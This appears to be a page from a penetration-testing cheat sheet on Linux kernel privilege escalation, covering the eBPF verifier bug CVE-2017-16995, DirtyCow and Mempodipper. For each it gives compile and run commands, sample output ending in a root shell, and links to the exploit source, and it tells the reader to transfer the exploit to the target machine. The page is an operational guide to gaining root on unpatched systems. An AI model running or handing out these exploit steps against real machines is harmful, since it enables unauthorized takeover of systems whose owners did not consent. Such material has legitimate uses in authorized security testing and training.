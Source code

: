 ### eBPF\_verifier - Linux Kernel &lt; 4.13.9

```text
$ gcc cve-2017-16995.c -o cve-2017-16995
$ chmod +x cve-2017-16995

$ ./cve-2017-16995
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88002dc42800
[*] Leaking sock struct from ffff88003d00d400
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff8800354a0600
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff8800354a0600
[*] credentials patched, launching shell...

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

```

{% embed url="https://www.exploit-db.com/exploits/45010" %}

### DirtyC0w - Linux Kernel 2.6.22 &lt; 3.9

```text
gcc -pthread dirty.c -o dirty -lcrypt
```

Transfer the exploit to the target machine.

```text
chmod +x dirty
./dirty
```

{% embed url="https://github.com/FireFart/dirtycow/blob/master/dirty.c" %}

### Mempodipper - Linux Kernel 2.6.39 &lt; 3.2.2 \(Gentoo / Ubuntu x86/x64\)

```text
$ gcc mempodipper.c -o mempodipper
$ chmod +x mempodipper

$ ./mempodipper
===============================
=          Mempodipper        =
=           by zx2c4          =
=         Jan 21, 2012        =
===============================

[+] Waiting for transferred fd in parent.
[+] Executing child from child fork.
[+] Opening parent mem /proc/1977/mem in child.
[+] Sending fd 3 to parent.
[+] Received fd at 5.
[+] Assigning fd 5 to stderr.
[+] Reading su for exit@plt.
```